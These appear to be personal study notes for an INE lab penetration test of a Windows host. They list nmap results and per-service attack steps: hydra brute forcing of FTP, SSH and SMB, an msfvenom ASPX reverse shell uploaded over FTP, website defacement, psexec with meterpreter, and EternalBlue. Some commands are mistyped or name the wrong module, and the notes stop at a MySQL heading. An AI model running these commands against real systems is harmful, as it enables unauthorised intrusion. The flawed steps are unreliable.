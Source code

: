 
Black box  Penetration Test 

To do: 
- `cat /etc/hosts `
- target: demo.ine.local 
10.2.19.218 

21/tcp    open  ftp                  Microsoft ftpd
22/tcp    open  ssh                  OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http                 Microsoft IIS httpd 7.5
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds         Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql                MySQL 5.5.20-log
3389/tcp  open  tcpwrapped
4848/tcp  open  ssl/http             Oracle Glassfish Application Server
7676/tcp  open  java-message-service Java Message Service 301
8080/tcp  open  http                 Sun GlassFish Open Source Edition  4.0
8181/tcp  open  ssl/http             Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
9200/tcp  open  wap-wsp?
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC

##### 1. Port scanning & enumeration 

- `Ping` target to check if we can communicate with the target
- perform `nmap` scan on target
	- basic scan: `nmap -sV ip `
	- `nmap  -T4 -PA -sC -sV -p 1-10000 target_ip -oX nmap_results_10k`
	- `nmap  -T4 -PA -sC -sV -p 1-65535 target_ip -oX nmap_results_65k` 
	- check udp port `nmap -sU -sV ip `
- Find out what is running on the target:
	- inspect pages that can be visited via browser 
- try to connect with a service:
	- `nc -nv target_ip target_port `

Output file in xml format can be imported in msfconsole 
Import findings in msfconsole: 
- `service postgresql start && msfconsole`
- create `workspace  `
- `db_import /root/Desktop/file/filename` (import results)
- `hosts` 
- `services`
- Get the exact operating system
	- `search smb_version`
	- `use aux/scanner/smb/smb_version`
	- ` set rhosts taret ip `
	- run (command `hosts` to check operating system)

#### Targeting Microsoft ISS FTP 

- Microsoft IIS - FTP is part of it the Microsoft IIS solution 
	- Microsoft ftp an microsoft IIS means that ftp is used to allow  authenticated users do modify the webserver directory

Steps:
1. identify vulnerability detection in regards with ftp: 
	- first check if anonymous logging is possible 
	    look for scripts: ` ls -al /usr/share/nmap/scripts/ | grep ftp- `
	    use script in nmap: `nmap -sV -p  --script=ftp-anon `
	    username: anonymous, password (geen) 

2.  ftp bruteforce attack with hydra
	- `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp `
	- check account: `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp ` or `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ftp `

3. use ftp ip port to connect to ftp server and use credentials found 

4. when you see an asp file you know the ftp client can TRY execute asp files 
	1. generate reverse shell with msfvenom 
		- `msfvenom -p windows/shell/reverse_tcp LHOST= your_ip LPORT= 1234 -f asp > shell.aspx `
	2. log back in into ftp server
		- put shell.aspx 
		- dir 

5. in different window start up multi/handler to receive the connection
	- `use multi/handler `
	- `set payload windows/shell/reverse_tcp `
	- in the browser: `ip/shell.aspx` 

if this did not work? 

pentester could try to deface the website: modify the webapplication or download client data - this is already something that should be reported. 
you could modify pages hosted 
get index.html
open the file in vim 
put index.html


#### Targeting OpenSSH 

Get the exact version of OpenSSH 

- `searchsploit OpenSSH version_number`
- burteforce: 
	- `hydra -l {username_youfound}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` 
	- `hydra -l administrator  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` `
- ssh username@ip 
	- pwd - whoami - net localgroup - 
- msfconsole
	- search ssh_login 
	- use au/scanner/ssh/ssh_login 
	- upgrade shell 
	- windows cmd session in ssh : `bash` 
	- `net localgroup administrators `
	- `whoami /priv`


#### Targeting SMB 

- bruteforce: 
	- `hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt  target protocol `
- enumerate shares
	- `smbclient -L targetip -U username`
	- `smbmap -u vagrant -p vagrant -H targetip `
- enumerate user accounts `enum4linux -u username -p password -U ip ` 

 - msfconsole
	 - enumerate users: `smb_enumusers` 


psexec allows you to remotely authenticate via SMB with legitimate credentials
	- `locate psexec.py `
	- Copy the file to Desktop:` cp file path  `
	- make the file executable so we can utilize it: `chmod +x psexec.py`
- `python 3 psexec.py Administrator@ip `


- msfconsole (psexec)
	- `search psexec `
	- `use exploit/windows/smb/psexec `
		- `set payload windows/x64/meterpreter/reverse_tcp`
		- `Sysinfo` 
		- `getuid`
		- `getprivs`


What to do when you don't have smb credentials? if you know that the device is running eternalblue: 
	- `search eternalblue `
	- `use exploit/windows/smb/psexec `




































#### Targeting MySQL Database Server 
